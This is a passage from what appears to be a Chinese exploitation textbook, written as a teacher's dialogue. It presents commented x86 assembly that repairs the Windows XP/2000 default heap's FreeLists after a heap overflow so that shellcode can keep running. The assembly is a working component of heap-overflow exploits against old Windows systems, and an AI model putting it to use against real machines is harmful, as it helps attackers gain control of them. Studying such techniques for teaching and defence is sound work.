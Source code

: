 # 6.3.1 恢复堆链表

### 6.3.1 恢复堆链表

“第一个技巧就是恢复堆链表。”

“我们在堆溢出利用时说过，”老师说道，“需要把堆链表进行恢复，才能运行一些 ShellCode。”

“恢复的思路就是：找到系统中堆结构的开始地方，把覆盖后的堆块还给系统。”

“在这里，我们没有必要详细讲解 Windows 的堆结构了。直接给出恢复堆链表处理代码和解释吧！”

```
//XP edii＋74 是下一堆块管理结构，如果是 Win2000，就是 esi＋0x4C
mov edx, dword ptr[edi+74]
// 把 ebx 赋为 0x18
push 0x18
pop ebx
// 得到 TEB，fs:[18]和 fs:[0]都是指向 TEB 的
mov eax, dword ptr fs:[ebx]
//从 TEB＋0x30 得到 PEB
mov eax, dword ptr[eax+0x30]
// PEB＋0x18 为默认堆地址指针
mov eax, dword ptr[eax+0x18]
//把 TotalFreeSize 的值给堆管理结构的第一部分 size
add al,0x28
mov si, word ptr[eax]
mov word ptr[edx],si
//把堆管理结构第二部分 sizeprevious size 设成 8
inc edx
inc edx
mov byte ptr[edx],0x08
//设置堆管理结构的其他部分
inc edx
mov si, word ptr[edx]
xor word ptr[edx],si
inc edx
inc edx
mov byte ptr[edx],0x14
inc edx
mov si, word ptr[edx]
xor word ptr[edx],si
inc edx
inc edx
// 堆基址+0x178 的地方为 FreeLists 结构
add ax,0x150
// 让 FreeLists[0].Flink 和 FreeLists[0].Blink 都指向堆管理结构
mov dword ptr[eax],edx 
mov dword ptr[eax+4],edx
//让堆管理结构也指向 FreeLists，完成堆的恢复
mov dword ptr[edx],eax
mov dword ptr[edx+4],eax 
```
